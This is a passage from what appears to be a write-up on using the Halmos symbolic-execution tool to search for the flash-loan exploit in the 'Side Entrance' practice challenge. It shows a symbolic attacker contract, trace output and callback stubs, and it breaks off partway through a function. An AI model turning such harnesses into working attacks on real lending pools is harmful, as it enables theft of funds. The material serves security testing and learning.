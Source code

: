 ```solidity
```
```solidity
contract SymbolicAttacker is Test, SymTest {
    ...
    function attack() public {
        execute_tx();
    }
```
### Callbacks
Run:
```javascript
$ halmos --solver-timeout-assertion 0 --function check_sideEntrance -vvvvv
...
Path #4:
            ...
            CALL SideEntranceLenderPool::flashLoan(p_amount_uint256_a507985_05()) (value: halmos_ETH_val_uint256_4f72fbf_01)
                CALL SymbolicAttacker::execute() (value: p_amount_uint256_a507985_05)
                ↩ REVERT 0x (error: Revert())
                ...
...
[PASS] check_sideEntrance() (paths: 9, time: 0.26s, bounds: [])
```
There is a problem here: SideEntranceLenderPool::flashLoan assumes that the contract that called this function has a payable callback "execute", which our SymbolicAttacker does not have. 
```solidity
contract SideEntranceLenderPool {
    ...
    function flashLoan(uint256 amount) external {
        ...
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
    ...
    }
```
We implement a valid execute:
```solidity
function execute () external payable {
    uint256 ETH_val = svm.createUint256("ETH_val_execute");
    address target = svm.createAddress("target_execute");
    bytes memory data;
    //Get some concrete target-name pair
    (target, data) = glob.get_concrete_from_symbolic(target);
    target.call{value: ETH_val}(data);
}
```
And one more problem in SideEntranceLenderPool::withdraw.
Despite the fact that SymbolicAttacker had no pool balance at the time of the transaction, Halmos still attempted to transfer some symbolic amount of ETH to SymbolicAttacker. And this is what happened:
```javascript
Path #2:
...
           CALL SideEntranceLenderPool::withdraw() (value: halmos_ETH_val_uint256_4f72fbf_01)
           ...
                CALL SymbolicAttacker::0x
                ↩ REVERT 0x (error: Revert())
                ...
```
We don't have the receive() callback function, so we implement it as well:
```solidity
receive() external payable {
    uint256 ETH_val = svm.createUint256("ETH_val_receive");
    address target = svm.createAddress("target_receive");
    bytes memory data;
```
